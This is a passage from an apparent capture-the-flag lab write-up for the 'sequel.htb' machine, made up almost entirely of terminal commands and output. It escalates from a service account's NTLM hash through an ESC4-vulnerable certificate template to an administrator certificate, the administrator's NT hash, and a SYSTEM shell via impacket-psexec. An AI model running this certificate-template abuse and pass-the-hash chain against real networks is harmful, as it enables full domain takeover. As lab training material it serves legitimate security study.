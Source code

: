 {% code overflow="wrap" %}
```bash
$ uv run certipy find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vuln
...
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
...
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
      
# Make the template vulnerable to ESC1
$ uv run certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
...
[*] Successfully updated 'DunderMifflinAuthentication'

$ ls -l *.ccache
-rw-r--r-- 1 x7331 x7331 1596 May 27 21:42 ca_svc.ccache

$ certipy req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -target dc01.sequel.htb -target-ip 10.10.11.51
...
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

$ uv run certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff

$ impacket-psexec -hashes :7a8d4e04986afa8ed4060f75e5a0b3ff administrator@10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.10.11.51.....
[-] share 'Accounting Department' is not writable.
[*] Found writable share ADMIN$
[*] Uploading file mTCAQEbF.exe
[*] Opening SVCManager on 10.10.11.51.....
[*] Creating service UHGV on 10.10.11.51.....
[*] Starting service UHGV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6640]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{% endcode %}
